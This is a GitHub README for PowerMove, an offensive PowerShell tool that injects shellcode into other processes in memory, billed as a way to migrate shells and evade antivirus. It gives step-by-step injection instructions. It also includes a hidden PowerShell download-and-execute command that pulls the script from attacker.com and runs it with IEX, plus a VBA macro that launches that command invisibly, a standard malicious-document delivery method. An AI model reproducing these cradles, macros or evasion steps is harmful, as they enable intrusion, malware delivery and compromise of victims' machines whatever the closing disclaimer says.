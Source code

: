 ![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/Logo_video2.gif)
# PowerMove.ps1
Author: 10N351R


PowerMove is a fileless process injector written in PowerShell for injecting shellcode and migrating your shell to new processes. PowerMove uses common WINAPIs such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` to perform simple process injections. This combination of WINAPIs are often detected by anti-virus solutions when stored on disk but will bypass these protections when executed exclusively in memory.

Tested on PowerShell version: `5.1.19041.4522`

## Instructions
To use PowerMove in an existing PowerShell shell
1. Copy the contents of PowerMove.ps1 into a text editor
2. Edit the `$targetPid` variable with the PID of the target process to inject into
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Copy the contents from the beginning `###` to the end `###` to your clipboard
5. Paste the contents into your existing PowerShell shell and press `Enter`
6. Enjoy the benifits fileless process injection

## Output
![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/PowerMove_output.png)

# PowerMove_dynamic.ps1
`PowerMove_dynamic.ps1` was created to add dynamic PID resolution to enable remote execution via COM objects in a VBA macro without embedding.

Tested on PowerShell version: `5.1.26100.4202`

## Instructions
`PowerMove_dynamic.ps1` can be executed in a Visual Basic for Applications (VBA) macro, or directly from PowerShell.
1. Copy the contents of `PowerMove_dynamic.ps1` into a text editor
2. Edit the `$targetProcName` variable with the name of the process you want to target (eg. `notepad`,`explorer`,`svchost`)
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Host `PowerMove_dynamic.ps1` on a server reachable by the target
5. Execute on the target

### Using PowerShell
```powershell
powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

### Using VBA Macro
```vba
Sub TEST()
    Dim ps As String
    ps = "powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText"""
    Shell ps, vbHide
End Sub
```

## Disclaimer
**Ethical Use:** PowerMove is provided for educational and lawful purposes only. The author is not responsible for any misuse or damaged caused by this tool. By using this tool, you agree to use it ethically and comply with all applicable laws and regulations. Unauthorized use of this tool is strictly prohibited and may result in severe legal consequences.

**Use Of Artificial Intelligence:** This tool was partially developed with the assistance of Artificial Intelligence (AI), and contains portions of code generated using OpenAI's ChatGPT, an AI language model.

